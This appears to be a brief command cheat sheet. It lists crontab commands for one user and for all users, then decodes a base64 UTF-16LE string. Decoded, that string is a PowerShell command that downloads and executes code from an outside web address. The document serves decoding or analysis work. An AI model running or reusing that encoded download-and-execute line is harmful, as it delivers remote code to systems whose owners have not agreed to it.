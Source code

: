 # crontab

## List crontab jobs for current user
```crontab -l```

## List crontab jobs for another user
```crontab -l -u anotheruser```

## List crontab jobs for all users
```for user in $(cut -f1 -d: /etc/passwd); do crontab -u $user -l; done```

## Convert base64 to single-byte unicode
```echo "SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwBzAHEAdQBpAHIAcgBlAGwAZABpAHIAZQBjAHQAbwByAHkALgBjAG8AbQAvAGEAJwApAAoA" | base64 -d | iconv -f UTF-16LE -t UTF-8```

